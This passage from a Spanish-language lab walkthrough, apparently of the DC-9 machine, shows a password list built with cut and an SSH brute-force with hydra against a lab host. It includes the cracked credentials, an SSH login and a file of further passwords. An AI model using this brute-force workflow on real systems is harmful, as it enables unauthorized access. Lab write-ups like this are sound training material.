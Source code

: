 ```bash
cat creds | cut -d ':' -f2 > passwords.txt
```

```bash
hydra -L users.txt -P passwords.txt 192.168.34.5 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-23 13:27:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 289 login tries (l:17/p:17), ~19 tries per task
[DATA] attacking ssh://192.168.34.5:22/
[22][ssh] host: 192.168.34.5   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.34.5   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.34.5   login: janitor   password: Ilovepeepee
[STATUS] 287.00 tries/min, 287 tries in 00:01h, 4 to do in 00:01h, 14 active
1 of 1 target successfully completed, 3 valid passwords found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-23 13:28:08
```

```bash
chandlerb:UrAG0D
joeyt:Passw0rd
janitor:Ilovepeepee
```

Inicio sesión como janitor

```bash	
ssh janitor@192.168.34.5
```

Enumerando encontramos el siguiente directorio

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2014.png)

Dentro encontramos el fichero passwords-found-on-post-it-notes.txt con las siguientes passwords

```bash
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

